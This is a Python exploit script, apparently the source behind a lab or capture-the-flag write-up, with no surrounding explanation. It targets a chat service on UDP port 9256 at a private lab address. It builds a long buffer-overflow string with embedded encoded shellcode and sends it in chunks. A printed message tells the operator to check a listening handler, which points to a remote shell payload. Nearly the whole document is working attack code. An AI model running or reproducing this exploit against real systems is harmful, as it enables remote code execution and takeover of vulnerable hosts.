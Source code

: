 ```python
buf += b"\x52\x39\x51\x4a\x30\x51\x4b\x4f\x59\x50\x31\x4f\x51"
buf += b"\x4f\x50\x5a\x44\x4b\x4e\x32\x5a\x4b\x34\x4d\x31\x4d"
buf += b"\x31\x58\x50\x33\x30\x32\x4d\x30\x4b\x50\x33\x38\x52"
buf += b"\x57\x44\x33\x4f\x42\x51\x4f\x51\x44\x42\x48\x50\x4c"
buf += b"\x33\x47\x4f\x36\x4b\x57\x4b\x4f\x58\x55\x58\x38\x44"
buf += b"\x50\x4b\x51\x4d\x30\x4d\x30\x4d\x59\x37\x54\x30\x54"
buf += b"\x52\x30\x31\x58\x4d\x59\x55\x30\x52\x4b\x4b\x50\x4b"
buf += b"\x4f\x38\x55\x52\x30\x50\x50\x42\x30\x32\x30\x51\x30"
buf += b"\x32\x30\x51\x30\x52\x30\x43\x38\x4a\x4a\x4c\x4f\x49"
buf += b"\x4f\x49\x50\x4b\x4f\x38\x55\x56\x37\x32\x4a\x4c\x45"
buf += b"\x43\x38\x4b\x5a\x4c\x4a\x4e\x30\x4d\x33\x32\x48\x4d"
buf += b"\x32\x4b\x50\x4e\x31\x51\x4c\x55\x39\x39\x56\x31\x5a"
buf += b"\x4c\x50\x32\x36\x50\x57\x42\x48\x56\x39\x35\x55\x53"
buf += b"\x44\x51\x51\x4b\x4f\x4a\x35\x44\x45\x57\x50\x53\x44"
buf += b"\x4c\x4c\x4b\x4f\x30\x4e\x4c\x48\x34\x35\x4a\x4c\x43"
buf += b"\x38\x4a\x50\x56\x55\x35\x52\x50\x56\x4b\x4f\x38\x55"
buf += b"\x33\x38\x43\x33\x52\x4d\x42\x44\x4d\x30\x55\x39\x59"
buf += b"\x53\x42\x37\x30\x57\x50\x57\x30\x31\x4b\x46\x52\x4a"
buf += b"\x4d\x42\x50\x59\x51\x46\x59\x52\x4b\x4d\x52\x46\x37"
buf += b"\x57\x50\x44\x4e\x44\x4f\x4c\x4d\x31\x4d\x31\x54\x4d"
buf += b"\x50\x44\x4d\x54\x4c\x50\x48\x46\x4d\x30\x51\x34\x42"
buf += b"\x34\x32\x30\x52\x36\x30\x56\x32\x36\x31\x36\x42\x36"
buf += b"\x30\x4e\x52\x36\x30\x56\x50\x53\x52\x36\x32\x48\x34"
buf += b"\x39\x58\x4c\x4f\x4f\x44\x46\x4b\x4f\x58\x55\x33\x59"
buf += b"\x4b\x30\x50\x4e\x42\x36\x31\x36\x4b\x4f\x4e\x50\x33"
buf += b"\x38\x4d\x38\x44\x47\x4d\x4d\x33\x30\x4b\x4f\x5a\x35"
buf += b"\x57\x4b\x39\x50\x4d\x4d\x4d\x5a\x4b\x5a\x42\x48\x45"
buf += b"\x56\x56\x35\x47\x4d\x45\x4d\x4b\x4f\x48\x55\x4f\x4c"
buf += b"\x4c\x46\x43\x4c\x4c\x4a\x53\x50\x4b\x4b\x49\x50\x32"
buf += b"\x55\x4b\x55\x37\x4b\x50\x47\x4d\x43\x33\x42\x42\x4f"
buf += b"\x42\x4a\x4b\x50\x50\x53\x4b\x4f\x38\x55\x41\x41"

def main (buf):
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    server_address = ('10.10.10.74', 9256)

    fs = "\x55\x2A\x55\x6E\x58\x6E\x05\x14\x11\x6E\x2D\x13\x11\x6E\x50\x6E\x58\x43\x59\x39"
    p  = "A0000000002#Main" + "\x00" + "Z"*114688 + "\x00" + "A"*10 + "\x00"
    p += "A0000000002#Main" + "\x00" + "A"*57288 + "AAAAASI"*50 + "A"*(3750-46)
    p += "\x62" + "A"*45
    p += "\x61\x40"
    p += "\x2A\x46"
    p += "\x43\x55\x6E\x58\x6E\x2A\x2A\x05\x14\x11\x43\x2d\x13\x11\x43\x50\x43\x5D" + "C"*9 + "\x60\x43"
    p += "\x61\x43" + "\x2A\x46"
    p += "\x2A" + fs + "C" * (157-len(fs)- 31-3)
    p += buf + "A" * (1152 - len(buf))
    p += "\x00" + "A"*10 + "\x00"

    print bcolours.GREEN + "[" + bcolours.TURQ + "+" + bcolours.GREEN + "]" + bcolours.ENDC + " BUFFER OVERFLOW PAYLOAD RELEASED -- CHECK YOUR HANDLER"

    i=0
    while i<len(p):
        if i > 172000:
            time.sleep(1.0)
        sent = sock.sendto(p[i:(i+8192)], server_address)
        i += sent
    sock.close()

if __name__=='__main__':
    main(buf)
```